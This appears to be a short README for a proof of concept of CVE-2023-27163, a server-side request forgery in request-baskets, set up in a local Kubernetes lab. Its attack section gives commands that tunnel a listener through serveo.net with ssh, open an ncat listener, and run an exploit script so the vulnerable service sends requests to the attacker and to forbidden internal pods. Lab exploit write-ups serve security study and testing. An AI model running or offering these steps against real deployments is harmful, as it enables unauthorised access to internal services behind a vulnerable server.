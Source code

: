 # CVE-2023-27163 POC

## Deployment

```bash
kubectl apply -f request-basket-service.yaml
kubectl apply -f request-baskets-depl.yaml
```


## Attack

```bash
ssh -R  0:localhost:8000 serveo.net
ncat -lvp 8000
./CVE-2023-27163.sh <address from minikube> http://serveo.net:<port from serveo>
```

Access the generated link from the script through the web. It will send the request to your listener. In the same way, we can send request to forbidden(internal) pods.
